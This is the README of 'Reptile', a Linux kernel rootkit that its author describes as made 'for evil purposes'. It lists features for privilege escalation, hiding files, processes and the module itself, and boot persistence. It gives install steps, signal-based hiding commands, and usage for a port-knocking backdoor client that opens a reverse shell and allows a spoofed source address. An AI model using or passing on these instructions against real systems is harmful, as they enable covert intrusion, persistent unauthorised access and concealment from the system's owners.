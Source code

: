 # Reptile

Reptile is a LKM rootkit for evil purposes. If you are searching stuff only for study purposes, see the [demonstration codes](https://github.com/f0rb1dd3n/papers/tree/master/rootkit_demonstration).

## Features

- Give root to unprivileged users
- Hide files and directories
- Hide files contents
- Hide processes
- Hide himself
- Boot persistence
- Heaven's door - A ICMP/UDP port-knocking backdoor
- Client to knock on heaven's door :D
    
## Install
```
apt-get install linux-headers-$(uname -r)
https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
./installer.sh install
```
## Uninstall
```
kill -50 0
rmmod reptile_mod
./install.sh uninstall
```

## Usage

Binaries will be copied to `/reptile` folder, that will be hidden by Reptile.

### Getting root privileges

<img src="https://i.imgur.com/UNTqrHP.png">

### Hiding

- Hide/unhide reptile module: `kill -50 0`
- Hide/unhide process: `kill -49 <PID>`
- Hide files contents: all content between the tags will be hidden

Example:
```
#<reptile> 
content to hide 
#</reptile>
```

### Knocking on heaven's door

Heaven's door is a ICMP/UDP port-knocking backdoor used by Reptile. To access the backdoor you can use the client: 
```
Knock Knock on Heaven's Door
Writen by: F0rb1dd3n

Usage: ./knock_on_heaven <args>

-x      protocol (ICMP/UDP)
-s      Source IP address (You can spoof)
-t      Target IP address
-p      Source Port
-q      Target Port
-d      Data to knock on backdoor: "<key> <reverse IP> <reverse Port>"
-l      Launch listener

[!] ICMP doesn't need ports

ICMP: ./knock_on_heaven -x icmp -s 192.168.0.2 -t 192.168.0.3 -d "F0rb1dd3n 192.168.0.4 4444" -l
UDP:  ./knock_on_heaven -x udp  -s 192.168.0.2 -t 192.168.0.3 -p 53 -q 53 -d "F0rb1dd3n 192.168.0.4 4444" -l

```
<img src="https://i.imgur.com/UaChWK8.png">

## Disclaimer

Some functions of this module is based on another rootkits. Please see the references!

## References

- “[LKM HACKING](http://www.ouah.org/LKM_HACKING.html)”, The Hackers Choice (THC), 1999;
- https://github.com/m0nad/Diamorphine.git
- https://github.com/David-Reguera-Garcia-Dreg/enyelkm.git
- https://github.com/maK-/maK_it-Linux-Rootkit
- “[Abuse of the Linux Kernel for Fun and Profit](http://phrack.org/issues/50/5.html)”, Halflife, Phrack 50, 1997;
- https://ruinedsec.wordpress.com/2013/04/04/modifying-system-calls-dispatching-linux/

## Contributing

I am open to receiving contributions. If you can contribute with this project, discuss the contribution via e-mail or open an issue, fork the project and make a pull request. I will evaluate pull requests and merge to the project.
